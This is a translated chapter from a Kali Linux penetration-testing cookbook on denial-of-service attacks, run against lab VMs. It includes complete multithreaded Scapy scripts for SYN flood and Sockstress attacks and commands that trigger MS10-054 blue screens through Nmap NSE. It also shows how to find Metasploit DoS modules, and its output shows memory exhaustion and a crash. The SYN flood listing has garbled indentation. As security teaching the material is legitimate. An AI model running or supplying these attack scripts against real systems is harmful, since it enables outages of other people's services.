

# 第六章 拒绝服务（二）

> 作者：Justin Hutchens
> 
> 译者：[飞龙](https://github.com/)
> 
> 协议：[CC BY-NC-SA 4.0](http://creativecommons.org/licenses/by-nc-sa/4.0/)

## 6.6 NTP 放大 DoS 攻击

NTP 放大 DoS 攻击利用响应远程 monlist 请求的网络时间协议（NTP）服务器。 monlist 函数返回与服务器交互的所有设备的列表，在某些情况下最多达 600 个列表。 攻击者可以伪造来自目标 IP 地址的请求，并且漏洞服务器将为每个发送的请求返回非常大的响应。 在写这本书的时候，这仍然是一个常见的威胁，目前正在大规模使用。 因此，我将仅演示如何测试 NTP 服务器，以确定它们是否将响应远程 monlist 请求。 补丁程序可用于大多数 NTP 服务来解决此问题，并且任何有存在漏洞的设备应该修复或下线。

### 准备

为了确定是否可以利用 NTP 服务器执行 NTP 放大攻击，你需要有启用 NTP 的设备。 在提供的示例中，Ubuntu 用于托管 NTP 服务。 有关设置 Ubuntu 的更多信息，请参阅本书第一章中的“安装 Ubuntu Server”秘籍。

### 操作步骤

为了确定远程服务器是否运行 NTP 服务，Nmap 可用于快速扫描 UDP 端口 123。 `-sU`选项可用于指定 UDP，然后可使用`-p`选项来指定端口 ：

```
root@KaliLinux:~# nmap -sU 172.16.36.224 -p 123

Starting Nmap 6.25 ( http://nmap.org ) at 2014-02-24 18:12 EST 
Nmap scan report for 172.16.36.224 
Host is up (0.00068s latency). 
PORT    STATE SERVICE 
123/udp open  ntp 
MAC Address: 00:0C:29:09:C3:79 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 0.10 seconds
```

如果远程服务器上运行 NTP 服务，则扫描应返回打开状态。 Kali Linux 上默认安装的另一个工具可用于确定 NTP 服务是否可用于放大攻击。 NTPDC 工具可用于尝试对远程服务执行 monlist 命令：

```
root@KaliLinux:~# ntpdc -n -c monlist 172.16.36.224 
172.16.36.224: timed out, nothing received 
***Request timed out
```

理想情况下，我们希望看到的是没有响应返回。 在所提供的第一个示例中，请求超时，并且未接收到输出。 这表明服务器不易受攻击，并且 monlist 命令只能在本地执行：

```
root@KaliLinux:~# ntpdc -c monlist 172.16.36.3 
remote address          port local address      count m ver rstr avgint  lstint
========================================================================= ====== 
host.crossing.com        123 172.16.36.3           18 4 4    1d0     35       1 
grub.ca.us.roller.o      123 172.16.36.3           17 4 4    1d0     37      35 
va-time.utility.o        123 172.16.36.3           17 4 4    1d0     37      59 
cheezpuff.meatball.n     123 172.16.36.3           17 4 4    1d0     38      62 
pwnbox.lizard.com        123 172.16.36.3           35 4 4    5d0     65      51 
```

或者，如果返回了一系列主机和连接元数据，则远程服务器可能能够用于放大攻击。 对于与服务器交互的每个新主机，会在此列表中添加一个新条目，响应的大小以及可能的载荷会变得更大。

放大攻击的原理是利用第三方设备，使网络流量压倒目标。 对于多数放大攻击，必须满足两个条件：

*   用于执行攻击的协议不验证请求源
*   来自所使用的网络功能的响应应该显着大于用于请求它的请求。

NTP 放大攻击的效率取决于 NTP 查询的响应大小。 另外，可以通过使用多个 NTP 服务器来增加攻击的威力。

## 6.7 SYN 泛洪 DoS 攻击

SYN 泛洪 DoS攻击是一种资源消耗攻击。 它的原理是向作为攻击目标的服务相关的远程端口发送大量 TCP SYN 请求。 对于目标服务接收的每个初始 SYN 分组，然后会发送出 SYN + ACK 分组并保持连接打开，来等待来自发起客户端的最终 ACK 分组。 通过使用这些半开请求使目标过载，攻击者可以使服务无响应。

### 准备

为了使用 Scapy 对目标执行完整的 SYN 泛洪，你需要有一个运行 TCP 网络服务的远程系统。 提供的示例使用 Metasploitable2 的实例用。 有关设置 Metasploitable2 的更多信息，请参阅本书第一章中的“安装 Metasploitable2”秘籍。 此外，本节需要使用文本编辑器（如 VIM 或 Nano）将脚本写入文件系统。 有关编写脚本的更多信息，请参阅本书第一章中的“使用文本编辑器（VIM 和 Nano）”秘籍。

### 操作步骤

为了使用 Scapy 执行 SYN 泛洪，我们需要通过与目标服务关联的端口发送 TCP SYN 请求来开始。 为了向任何给定端口发送 TCP SYN 请求，我们必须首先构建此请求的层级。 我们将需要构建的第一层是 IP 层：

```
root@KaliLinux:~# scapy Welcome to Scapy (2.2.0) 
>>> i = IP() 
>>> i.display() 
###[ IP ]###
  version= 4
  ihl= None
  tos= 0x0
  len= None
  id= 1
  flags=
  frag= 0
  ttl= 64
  proto= ip
  chksum= None
  src= 127.0.0.1
  dst= 127.0.0.1
  \options\ 
>>> i.dst = "172.16.36.135"
>>> i.display()
###[ IP ]###
  version= 4
  ihl= None
  tos= 0x0
  len= None
  id= 1
  flags=
  frag= 0
  ttl= 64
  proto= ip
  chksum= None
  src= 172.16.36.224
  dst= 172.16.36.135
  \options\
```

要构建我们的请求的 IP 层，我们应该将 `IP` 对象赋给变量`i`。 通过调用`display()`函数，我们可以确定该对象的属性配置。 通常，发送和接收地址都设为回送地址`127.0.0.1`。 可以通过将`i.dst`设置为广播地址的字符串值，来更改目标地址并修改这些值。 通过再次调用`display()`函数，我们可以看到，不仅更新了目的地址，而且`Scapy`也会自动将源 IP 地址更新为与默认接口相关的地址。 现在我们已经构建了请求的 IP 层，我们应该继续构建 TCP 层：

```
>>> t = TCP() 
>>> t.display() 
###[ TCP ]###
  sport= ftp_data
  dport= http
  seq= 0
  ack= 0
  dataofs= None
  reserved= 0
  flags= S
  window= 8192
  chksum= None
  urgptr= 0
  options= {}
```

要构建我们的请求的 TCP 层，我们将使用与 IP 层相同的技术。 在提供的示例中，`TCP` 对象赋给了`t`变量。 如前所述，可以通过调用`display()`函数来确定默认配置。 在这里，我们可以看到目标端口的默认值是 HTTP 80 端口。对于我们的首次扫描，我们将 TCP 配置保留默认。现在我们构建了 IP 和 TCP 层，我们可以通过堆叠这些层来构造请求：

```
>>> response = sr1(i/t,verbose=1,timeout=3) 
Begin emission: 
Finished to send 1 packets.
Received 5 packets, got 1 answers, remaining 0 packets 
>>> response.display() 
###[ IP ]###
  version= 4L
  ihl= 5L
  tos= 0x0
  len= 44
  id= 0
  flags= DF
  frag= 0L
  ttl= 64
  proto= tcp
  chksum= 0x9944
  src= 172.16.36.135
  dst= 172.16.36.224
  \options\ 
###[ TCP ]###
     sport= http
     dport= ftp_data
     seq= 3651201360L
     ack= 1
     dataofs= 6L
     reserved= 0L
     flags= SA
     window= 5840
     chksum= 0x1c68
     urgptr= 0
     options= [('MSS', 1460)] 
 ###[ Padding ]###
        load= '\x00\x00'
```

可以通过使用斜杠分隔变量来堆叠 IP 和 TCP 层。 然后可以将这些层赋给表示整个请求的新变量。 然后可以调用`display()`函数来查看请求的配置。 一旦建立了请求，就可以将其传递给发送和接收函数，以便我们可以分析响应：

```
>>> request = (i/t) 
>>> request.display() 
###[ IP ]###
  version= 4
  ihl= None
  tos= 0x0
  len= None
  id= 1
  flags=
  frag= 0
  ttl= 64
  proto= tcp
  chksum= None
  src= 172.16.36.224
  dst= 172.16.36.135
  \options\ 
###[ TCP ]###
     sport= ftp_data
     dport= http
     seq= 0
     ack= 0
     dataofs= None
     reserved= 0
     flags= S
     window= 8192
     chksum= None
     urgptr= 0
     options= {}
```

可以在不独立地构建和堆叠每个层的情况下执行相同的请求。 相反，可以通过直接调用函数并向其传递适当的参数来使用单行命令：

```
>>> sr1(IP(dst="172.16.36.135")/TCP()) 
Begin emission: 
......................................................
Finished to send 1 packets. 
..* 
Received 57 packets, got 1 answers, remaining 0 packets 
<IP  version=4L ihl=5L tos=0x0 len=44 id=0 flags=DF frag=0L ttl=64 proto=tcp chksum=0x9944 src=172.16.36.135 dst=172.16.36.224 options=[] |<TCP  sport=http dport=ftp_data seq=2078775635 ack=1 dataofs=6L reserved=0L flags=SA window=5840 chksum=0xca1e urgptr=0 options=[('MSS', 1460)] |<Padding  load='\x00\x00' |>>> 
```

SYN 泛洪的效率取决于在给定时间段内可以生成的 SYN 请求的数量。 为了提高这个攻击序列的效率，我写了一个多线程脚本，可以执行可由攻击系统处理的，尽可能多的 SYN 数据包注入的并发进程：

```
#!/usr/bin/python

from scapy.all 
import * from time 
import sleep 
import thread 
import random 
import logging 
logging.getLogger("scapy.runtime").setLevel(logging.ERROR)

if len(sys.argv) != 4:   
    print "Usage - ./syn_flood.py [Target-IP] [Port Number] [Threads]"   
    print "Example - ./sock_stress.py 10.0.0.5 80 20"   
    print "Example will perform a 20x multi-threaded SYN flood attack"   
    print "against the HTTP (port 80) service on 10.0.0.5"   
    sys.exit()

target = str(sys.argv[1]) 
port = int(sys.argv[2]) 
threads = int(sys.argv[3])

print "Performing SYN flood. Use Ctrl+C to stop attack." 
def synflood(target,port):   
    while 0 == 0:
        x = random.randint(0,65535)      
        send(IP(dst=target)/TCP(dport=port,sport=x),verbose=0)

    for x in range(0,threads):   
        thread.start_new_thread(synflood, (target,port))

    while 0 == 0:   
        sleep(1) 
```

脚本在执行时接受三个参数。 这些参数包括目标 IP 地址，SYN 泛洪所发送到的端口号，以及将用于执行 SYN 泛洪的线程或并发进程的数量。 每个线程以生成 0 到 65,535 之间的整数值开始。 此范围表示可分配给源端口的全部可能值。 定义源和目标端口地址的 TCP 报头的部分在长度上都是 16 比特。 每个位可以为 1 或 0。因此，有`2 ** 16`或 65,536 个可能的 TCP 端 口地址。 单个源端口只能维持一个半开连接，因此通过为每个 SYN 请求生成唯一的源端口地址，我们可以大大提高攻击的性能：

```
root@KaliLinux:~# ./syn_flood.py U
sage - ./syn_flood.py [Target-IP] [Port Number] [Threads] 
Example - ./sock_stress.py 10.0.0.5 80 20 
Example will perform a 20x multi-threaded SYN flood attack against the HTTP (port 80) service on 10.0.0.5 
root@KaliLinux:~# ./syn_flood.py 172.16.36.135 80 20 
Performing SYN flood. Use Ctrl+C to stop attack. 
```

当在没有任何参数的情况下执行脚本时，会将使用方法返回给用户。在提供的示例中，脚本对托管在`172.16.36.135`的 TCP 端口 80 上的 HTTP Web 服务执行，具有 20 个并发线程 。脚本本身提供的反馈很少; 但是，可以运行流量捕获工具（如 Wireshark 或 TCPdump）来验证是否正在发送连接。在非常短暂的时间之后，与服务器的连接尝试会变得非常慢或完全无响应。

### 工作原理

TCP 服务只允许建立有限数量的半开连接。 通过快速发送大量的 TCP SYN 请求，这些可用的连接会被耗尽，并且服务器将不再能够接受新的传入连接。 因此，新用户将无法访问该服务。 通过将其用作 DDoS 并且使多个攻击系统同时执行脚本，该攻击的效率可以进一步加强。

## 6.8 Sockstress DoS 攻击

Sockstress DoS 攻击涉及到与目标服务相关的 TCP 端口建立一系列开放连接。 TCP 握手中的最终 ACK 响应的值应为 0。

### 准备

为了使用 Scapy 对目标执行Sockstress DoS 攻击，你需要有一个运行 TCP 网络服务的远程系统。 提供的示例使用 Metasploitable2 的实例用。 有关设置 Metasploitable2 的更多信息，请参阅本书第一章中的“安装 Metasploitable2”秘籍。 此外，本节需要使用文本编辑器（如 VIM 或 Nano）将脚本写入文件系统。 有关编写脚本的更多信息，请参阅本书第一章中的“使用文本编辑器（VIM 和 Nano）”秘籍。

### 操作步骤

以下脚本使用 Scapy 编写，用于对目标系统执行 Sockstress DoS 攻击。 以下脚本可用于测试漏洞服务：

```
#!/usr/bin/python
from scapy.all import * 
from time import sleep 
import thread 
import logging 
import os 
import signal 
import sys 
logging.getLogger("scapy.runtime").setLevel(logging.ERROR)

if len(sys.argv) != 4:   
    print "Usage - ./sock_stress.py [Target-IP] [Port Number] [Threads]"   
    print "Example - ./sock_stress.py 10.0.0.5 21 20"   
    print "Example will perform a 20x multi-threaded sock-stress DoS attack "   
    print "against the FTP (port 21) service on 10.0.0.5"  
    print "\n***NOTE***"
    print "Make sure you target a port that responds when a connection is made"   
    sys.exit()

target = str(sys.argv[1]) 
dstport = int(sys.argv[2]) 
threads = int(sys.argv[3])

## This is where the magic happens 
def sockstress(target,dstport):   while 0 == 0:      
    try:         
        x = random.randint(0,65535)         
        response = sr1(IP(dst=target)/TCP(sport=x,dport=dstport,flags ='S'),timeout=1,verbose=0)                        
        send(IP(dst=target)/ TCP(dport=dstport,sport=x,window=0,flags='A',ack=(response[TCP].seq + 1))/'\x00\x00',verbose=0)     
    except:         
        pass

## Graceful shutdown allows IP Table Repair 
def graceful_shutdown(signal, frame):   
    print '\nYou pressed Ctrl+C!'  
    print 'Fixing IP Tables'   
    os.system('iptables -A OUTPUT -p tcp --tcp-flags RST RST -d ' + target + ' -j DROP')   
    sys.exit()

## Creates IPTables Rule to Prevent Outbound RST Packet to Allow Scapy TCP Connections 
os.system('iptables -A OUTPUT -p tcp --tcp-flags RST RST -d ' + target + ' -j DROP') 
signal.signal(signal.SIGINT, graceful_shutdown)

## Spin up multiple threads to launch the attack
print "\nThe onslaught has begun...use Ctrl+C to stop the attack" 
for x in range(0,threads):   
    thread.start_new_thread(sockstress, (target,dstport))

## Make it go FOREVER (...or at least until Ctrl+C) 
while 0 == 0:   
    sleep(1) 
```

请注意，此脚本有两个主要功能，包括 sockstress 攻击功能和单独的正常关机功能。 关闭需要单独的函数，因为为了使脚本正常运行，脚本必须修改本地 iptables 规则。 此更改是必需的，以便使用 Scapy 完成与远程主机的 TCP 连接。 在第三章“端口扫描”的“使用 Scapy 配置连接扫描”中，更彻底地解决了这一问题。 在执行脚本之前，我们可以使用 netstat 和 free 工具为已建立的连接和正在使用的内存获取基线：

```
msfadmin@metasploitable:~$ netstat | grep ESTABLISHED 
tcp6       0      0 172.16.36.131%13464:ssh 172.16.36.1%8191:49826  ESTABLISHED 
udp        0      0 localhost:32840         localhost:32840         ESTABLISHED 
msfadmin@metasploitable:~$ free -m 

             total       used       free     shared    buffers     cached 
Mem:           503        157        345          0         13         54 
-/+ buffers/cache:         89        413 
Swap:            0          0          0 
```

通过使用 netstat，然后通过管道输出到`grep`函数，并只提取已建立的连接，我们可以看到只存在两个连接。 我们还可以使用`free`工具查看当前的内存使用情况。 `-m`选项用于返回以兆字节为单位的值。 在确定已建立的连接和可用内存的基线后，我们可以对此目标服务器启动攻击：

```
root@KaliLinux:~# ./sock_stress.py 
Usage - ./sock_stress.py [Target-IP] [Port Number] [Threads] 
Example - ./sock_stress.py 10.0.0.5 21 20 
Example will perform a 20x multi-threaded sock-stress DoS attack against the FTP (port 21) service on 10.0.0.

***NOTE*** 
Make sure you target a port that responds when a connection is made 
root@KaliLinux:~# ./sock_stress.py 172.16.36.131 21 20

The onslaught has begun...use Ctrl+C to stop the attack
```

通过在没有任何提供的参数的情况下执行脚本，脚本将返回预期的语法和用法。脚本在执行时接受三个参数。这些参数包括目标 IP 地址，sock stress DoS所发送的端口号，以及将用于执行 sock stress DoS 的线程或并发进程的数量。每个线程以生成 0 到 65,535 之间的整数值开始。此范围表示可分配给源端口的全部可能值。定义源和目的地端口地址的 TCP 报头的部分在长度上都是 16 比特。每个位可以为值 1 或 0。因此，有`2 ** 16`或 65,536 个可能的 TCP 端口地址。单个源端口只能维持单个连接，因此通过为每个连接生成唯一的源端口地址，我们可以大大提高攻击的效率。一旦攻击开始，我们可以通过检查在目标服务器上建立的活动连接，来验证它是否正常工作：

```
msfadmin@metasploitable:~$ netstat | grep ESTABLISHED 
tcp        0     20 172.16.36.131:ftp       172.16.36.232:25624     ESTABLISHED 
tcp        0     20 172.16.36.131:ftp       172.16.36.232:12129     ESTABLISHED 
tcp        0     20 172.16.36.131:ftp       172.16.36.232:31294     ESTABLISHED 
tcp        0     20 172.16.36.131:ftp       172.16.36.232:46731     ESTABLISHED 
tcp        0     20 172.16.36.131:ftp       172.16.36.232:15281     ESTABLISHED 
tcp        0     20 172.16.36.131:ftp       172.16.36.232:47576     ESTABLISHED 
tcp        0     20 172.16.36.131:ftp       172.16.36.232:27472     ESTABLISHED 
tcp        0     20 172.16.36.131:ftp       172.16.36.232:11152     ESTABLISHED 
tcp        0     20 172.16.36.131:ftp       172.16.36.232:56245     ESTABLISHED 
tcp        0     20 172.16.36.131:ftp       172.16.36.232:1161      ESTABLISHED 
tcp        0     20 172.16.36.131:ftp       172.16.36.232:21064     ESTABLISHED 
tcp        0     20 172.16.36.131:ftp       172.16.36.232:29344     ESTABLISHED 
tcp        0     20 172.16.36.131:ftp       172.16.36.232:43747     ESTABLISHED 
tcp        0     20 172.16.36.131:ftp       172.16.36.232:59609     ESTABLISHED 
tcp        0     20 172.16.36.131:ftp       172.16.36.232:31927     ESTABLISHED
tcp        0     20 172.16.36.131:ftp       172.16.36.232:12257     ESTABLISHED 
tcp        0     20 172.16.36.131:ftp       172.16.36.232:54709     ESTABLISHED 
tcp        0     20 172.16.36.131:ftp       172.16.36.232:55595     ESTABLISHED 
tcp        0     20 172.16.36.131:ftp       172.16.36.232:12992     ESTABLISHED 
tcp        0     20 172.16.36.131:ftp       172.16.36.232:24171     ESTABLISHED 
tcp        0     20 172.16.36.131:ftp       172.16.36.232:37207     ESTABLISHED 
tcp        0     20 172.16.36.131:ftp       172.16.36.232:39224     ESTABLISHED 
```

在执行脚本后的几分钟，我们可以看到已建立的连接的数量急剧增加。 此处显示的输出已截断，连接列表实际上明显长于此：

```
msfadmin@metasploitable:~$ free -m             
             total       used       free     shared    buffers     cached 
Mem:           503        497          6          0        149        
138 -/+ buffers/cache:        209        294 
Swap:            0          0          0 
```

通过连续使用`free` 工具，我们可以看到，系统的可用内存逐渐耗尽。 一旦内存空闲值下降到几乎没有，空闲缓冲区/缓存空间将开始下降：

```
msfadmin@metasploitable:~$ free -m             
             total       used       free     shared    buffers     cached 
Mem:           503        498          4          0          0          
5 -/+ buffers/cache:        493         10 
Swap:            0          0          0 
```

在本地系统上的所有资源耗尽之后，系统最终会崩溃。 完成此过程所需的时间将取决于可用的本地资源量。 在这里提供的示例中，这是在具有 512 MB RAM 的 Metasploitable VM 上执行的，攻击花费了大约 2 分钟来耗尽所有可用的本地资源并使服务器崩溃。 服务器崩溃后，或者你希望停止 DoS 攻击时，可以按`Ctrl + C`。

```
root@KaliLinux:~# ./sock_stress.py 172.16.36.131 21 20

The onslaught has begun...use Ctrl+C to stop the attack
^C 
pressed Ctrl+C! 
Fixing IP Tables 
```

脚本被编写来捕获由于按`Ctrl + C`而发送的终止信号，并且它将通过去除在终止脚本的执行序列之前生成的规则,来修复本地 iptables。

### 工作原理

在 sockstress DoS 中，三次握手中的最后的 ACK 封包的窗口值为 0。由于连接客户端的空窗口所示，漏洞服务不会传送任何数据来响应连接。 相反，服务器会保存要在内存中传输的数据。 使用这些连接充斥服务器将耗尽服务器的资源，包括内存，交换空间和计算能力。

## 6.9 使用 Nmap NSE 执行 DoS 攻击

Nmap 脚本引擎（NSE）拥有许多可用于执行 DoS 攻击的脚本。 这个特定的秘籍演示了如何找到 NSE DoS 脚本，确定脚本的用法，以及如何执行它们。

### 准备

为了使用 Nmap NSE 执行 DoS 攻击，你需要有一个运行漏洞服务的系统，它易受 Nmap NSE DoS 脚本之一的攻击。 所提供的示例使用 Windows XP 的实例。 有关设置 Windows 系统的更多信息，请参阅本书第一章中的“安装 Windows Server”秘籍。

### 操作步骤

在使用 Nmap NSE 脚本执行 DoS 测试之前，我们需要确定哪些 DoS 脚本可用。 在 Nmap NSE 脚本目录中有一个`greppable script.db`文件，可用于确定任何给定类别中的脚本：

```
root@KaliLinux:~# grep dos /usr/share/nmap/scripts/script.db | cut -d "\"" -f 2 
broadcast-avahi-dos.nse 
http-slowloris.nse ipv6-ra-flood.nse
smb-check-vulns.nse 
smb-flood.nse 
smb-vuln-ms10-054.nse 
```

通过从`script.db`文件中使用`grep`搜索 DoS，然后将输出通过管道传递到`cut`函数，我们可以提取可用的脚本。 通过阅读任何一个脚本的头部，我们通常可以找到很多有用的信息：

```
root@KaliLinux:~# cat /usr/share/nmap/scripts/smb-vuln-ms10-054.nse | more 
local bin = require "bin" 
local msrpc = require "msrpc" 
local smb = require "smb" 
local string = require "string" 
local vulns = require "vulns" 
local stdnse = require "stdnse"

description = [[ 
Tests whether target machines are vulnerable to the ms10-054 SMB remote memory 
corruption vulnerability.

The vulnerable machine will crash with BSOD. 

The script requires at least READ access right to a share on a remote machine. 
Either with guest credentials or with specified username/password. 
```

为了从上到下读取脚本，我们应该对文件使用`cat`命令，然后通过管道输出到`more`工具。 脚本的头部描述了它所利用的漏洞以及系统必须满足的条件。 它还解释了该漏洞将导致蓝屏死机（BSOD）DoS。 通过进一步向下滚动，我们可以找到更多有用的信息：

```
-- @usage nmap  -p 445 <target> --script=smb-vuln-ms10-054 --script-args unsafe --- @args unsafe Required to run the script, "safty swich" to prevent running it by accident -- @args smb-vuln-ms10-054.share Share to connect to (defaults to SharedDocs) 
-- @usage nmap  -p 445 <target> --script=smb-vuln-ms10-054 --script-args unsafe --- @args unsafe Required to run the script, "safty swich" to prevent running it by accident -- @args smb-vuln-ms10-054.share Share to connect to (defaults to SharedDocs) 

-- @output -- Host script results: -- | smb-vuln-ms10-054: -- |   VULNERABLE: -- |   SMB remote memory corruption vulnerability -- |     State: VULNERABLE -- |     IDs:  CVE:CVE-2010-2550 -- |     Risk factor: HIGH  CVSSv2: 10.0 (HIGH) (AV:N/AC:L/Au:N/C:C/I:C/ A:C) -- |     Description: -- |       The SMB Server in Microsoft Windows XP SP2 and SP3, Windows Server 2003 SP2, -- |       Windows Vista SP1 and SP2, Windows Server 2008 Gold, SP2, and R2, and Windows 7 -- |       does not properly validate fields in an SMB request, which allows remote attackers -- |       to execute arbitrary code via a crafted SMB packet, aka "SMB Pool Overflow Vulnerability."
```

在脚本中，我们可以找到脚本用法和脚本提供的参数的描述。 它还提供了有关其利用的漏洞的其他详细信息。 要执行脚本，我们需要在 Nmap 中使用`--script`选项：

```
root@KaliLinux:~# nmap -p 445 172.16.36.134 --script=smb-vuln-ms10-054 --script-args unsafe=1

Starting Nmap 6.25 ( http://nmap.org ) at 2014-02-28 23:45 EST 
Nmap scan report for 172.16.36.134 
Host is up (0.00038s latency). 
PORT    STATE SERVICE 
445/tcp open  microsoft-ds 
MAC Address: 00:0C:29:18:11:FB (VMware)

Host script results: 
| smb-vuln-ms10-054: 
|   VULNERABLE: 
|   SMB remote memory corruption vulnerability 
|     State: VULNERABLE 
|     IDs:  CVE:CVE-2010-2550
|     Risk factor: HIGH  CVSSv2: 10.0 (HIGH) (AV:N/AC:L/Au:N/C:C/I:C/A:C) 
|     Description: 
|       The SMB Server in Microsoft Windows XP SP2 and SP3, Windows Server 2003 SP2, 
|       Windows Vista SP1 and SP2, Windows Server 2008 Gold, SP2, and R2, and Windows 7 
|       does not properly validate fields in an SMB request, which allows remote attackers 
|       to execute arbitrary code via a crafted SMB packet, aka "SMB Pool Overflow Vulnerability."
```

在提供的示例中，Nmap 被定向为仅扫描 TCP 端口 445，这是该漏洞的相关端口。 `--script`选项与指定所使用的脚本的参数一起使用。 我们传递了单个脚本参数来表明可以接受不安全扫描。 此参数的描述是，可用于授权 DoS 攻击的安全开关。 在 Nmap 中执行脚本后，输出表明系统存在漏洞。 查看 Windows XP 机器，我们可以看到 DoS 成功，这导致了蓝屏：



### 工作原理

本练习中演示的 Nmap NSE 脚本是缓冲区溢出攻击的示例。 一般来说，缓冲区溢出能够导致拒绝服务，因为它们可能导致任意数据被加载到非预期的内存段。 这可能中断执行流程，并导致服务或操作系统崩溃。

## 6.10 Metasploit DoS 攻击

Metasploit框架有许多辅助模块脚本，可用于执行 DoS 攻击。 这个特定的秘籍演示了如何找到 DoS 模块，确定模块的使用方式，以及如何执行它们。

### 准备

为了使用 Metasploit 执行 DoS 攻击，你需要有一个运行漏洞服务的系统，它易受 Metasploit DoS 辅助模块之一的攻击。 所提供的示例使用 Windows XP 的实例。 有关设置 Windows 系统的更多信息，请参阅本书第一章中的“安装 Windows Server”秘籍。

### 操作步骤

在使用 Metasploit 辅助模块执行 DoS 测试之前，我们需要确定哪些 DoS 模块可用。 相关模块可以通过浏览 Metasploit 目录树来确定：

```
 root@KaliLinux:~# cd /usr/share/metasploit-framework/modules/auxiliary/ dos/ 
root@KaliLinux:/usr/share/metasploit-framework/modules/auxiliary/dos# ls cisco  dhcp  freebsd  hp  http  mdns  ntp  pptp  samba  scada  smtp  solaris  ssl  syslog  tcp  wifi  windows  wireshark 
root@KaliLinux:/usr/share/metasploit-framework/modules/auxiliary/dos# cd windows/ 
root@KaliLinux:/usr/share/metasploit-framework/modules/auxiliary/dos/ windows# ls appian  browser  ftp  games  http  llmnr  nat  rdp  smb  smtp  tftp 
root@KaliLinux:/usr/share/metasploit-framework/modules/auxiliary/dos/ windows# cd http 
root@KaliLinux:/usr/share/metasploit-framework/modules/auxiliary/dos/ windows/http# ls ms10_065_ii6_asp_dos.rb 
pi3web_isapi.rb 
```

通过浏览`/ modules / auxiliary / dos`目录，我们可以看到各种类别的 DoS 模块。 在提供的示例中，我们已浏览包含 Windows HTTP 拒绝服务漏洞的目录：

```
root@KaliLinux:/usr/share/metasploit-framework/modules/auxiliary/dos/ windows/http# cat ms10_065_ii6_asp_dos.rb | more 
## 
# This file is part of the Metasploit Framework and may be subject to
# redistribution and commercial restrictions. Please see the Metasploit 
# web site for more information on licensing and terms of use. 
#   http://metasploit.com/ 
##

require 'msf/core'

class Metasploit3 < Msf::Auxiliary

   include Msf::Exploit::Remote::Tcp   
   include Msf::Auxiliary::Dos

   def initialize(info = {})      
   super(update_info(info,         
        'Name'           => 'Microsoft IIS 6.0 ASP Stack Exhaustion Denial of Service',         
        'Description'    => %q{               
            The vulnerability allows remote unauthenticated attackers to force the IIS server            
            to become unresponsive until the IIS service is restarted manually by the administrator.            
            Required is that Active Server Pages are hosted by the IIS and that an ASP script reads            
            out a Post Form value.         
        },         
        'Author'         =>            
            [               
                'Alligator Security Team',               
                'Heyder Andrade <heyder[at]alligatorteam.org>',               
                'Leandro Oliveira <leadro[at]alligatorteam.org>'            
            ],         
        'License'        => MSF_LICENSE,         
        'References'     =>            
            [               
                [ 'CVE', '2010-1899' ],               
                [ 'OSVDB', '67978'],               
                [ 'MSB', 'MS10-065'],               
                [ 'EDB', '15167' ]            
            ],         
        'DisclosureDate' => 'Sep 14 2010'))
```

为了从上到下读取脚本，我们应该对文件使用`cat`命令，然后通过管道输出到`more`工具。 脚本的顶部描述了它所利用的漏洞以及系统必须满足的条件。 我们还可以在 Metasploit 框架控制台中识别潜在的 DoS 漏洞。 要访问它，在终端中键入`msfconsole`：

```
root@KaliLinux:~# msfconsole # cowsay++
 ____________
< metasploit > 
 ----------- 
       \   ,__,        
        \  (oo)____           
           (__)    )\              
              ||--|| *

Large pentest? List, sort, group, tag and search your hosts and services in Metasploit Pro -- type 'go_pro' to launch it now.

       =[ metasploit v4.6.0-dev [core:4.6 api:1.0] 
+ -- --=[ 1053 exploits - 590 auxiliary - 174 post 
+ -- --=[ 275 payloads - 28 encoders - 8 nops

msf > 
```

一旦打开，搜索命令可以与搜索项结合使用，来确定要使用的漏洞利用：

```
msf > search dos

Matching Modules 
================

   Name                                                        Disclosure Date  Rank       Description   ----                                                        --------------  ----       ----------
   auxiliary/admin/webmin/edit_html_fileaccess                 2012-09-06       normal     Webmin edit_html.cgi file Parameter Traversal Arbitrary File Access   
   auxiliary/dos/cisco/ios_http_percentpercent                 2000-04-26       normal     Cisco IOS HTTP GET /%% request Denial of Service   
   auxiliary/dos/dhcp/isc_dhcpd_clientid                                        normal     ISC DHCP Zero Length ClientID Denial of Service Module   
   auxiliary/dos/freebsd/nfsd/nfsd_mount                                        normal     FreeBSD Remote NFS RPC Request Denial of Service   
   auxiliary/dos/hp/data_protector_rds                         2011-01-08       manual     HP Data Protector Manager RDS DOS   
   auxiliary/dos/http/3com_superstack_switch                   2004-06-24       normal     3Com SuperStack Switch Denial of Service   
   auxiliary/dos/http/apache_mod_isapi                         2010-03-05       normal     Apache mod_isapi <= 2.2.14 Dangling Pointer   
   auxiliary/dos/http/apache_range_dos                         2011-08-19       normal     Apache Range header DoS (Apache Killer)   
   auxiliary/dos/http/apache_tomcat_transfer_encoding          2010-07-09       normal     Apache Tomcat Transfer-Encoding Information Disclosure and DoS 
```

在提供的示例中，搜索项 dos 用于查询数据库。 返回一系列 DoS 辅助模块，并且包括每个 DoS 辅助模块的相对路径。 此相对路径可用于缩小搜索结果范围：

```
msf > search /dos/windows/smb/

Matching Modules 
================

   Name                                                        Disclosure Date  Rank    Description   
   ----                                                        --------------  ----    ----------   
   auxiliary/dos/windows/smb/ms05_047_pnp                                       normal  Microsoft Plug and Play Service Registry Overflow   
   auxiliary/dos/windows/smb/ms06_035_mailslot                 2006-07-11       normal  Microsoft SRV.SYS Mailslot Write Corruption   
   auxiliary/dos/windows/smb/ms06_063_trans                                     normal  Microsoft SRV.SYS Pipe Transaction No Null   
   auxiliary/dos/windows/smb/ms09_001_write                                     normal  Microsoft SRV.SYS WriteAndX Invalid DataOffset   
   auxiliary/dos/windows/smb/ms09_050_smb2_negotiate_pidhigh                    normal  Microsoft SRV2.SYS SMB Negotiate ProcessID Function Table Dereference

   auxiliary/dos/windows/smb/ms09_050_smb2_session_logoff                       normal  Microsoft SRV2.SYS SMB2 Logoff Remote Kernel NULL Pointer Dereference   
   auxiliary/dos/windows/smb/ms10_006_negotiate_response_loop                   normal  Microsoft Windows 7 / Server 2008 R2 SMB Client Infinite Loop   
   auxiliary/dos/windows/smb/ms10_054_queryfs_pool_overflow                     normal  Microsoft Windows SRV.SYS SrvSmbQueryFsInformation Pool Overflow DoS   
   auxiliary/dos/windows/smb/ms11_019_electbowser                               manual  Microsoft Windows Browser Pool DoS   
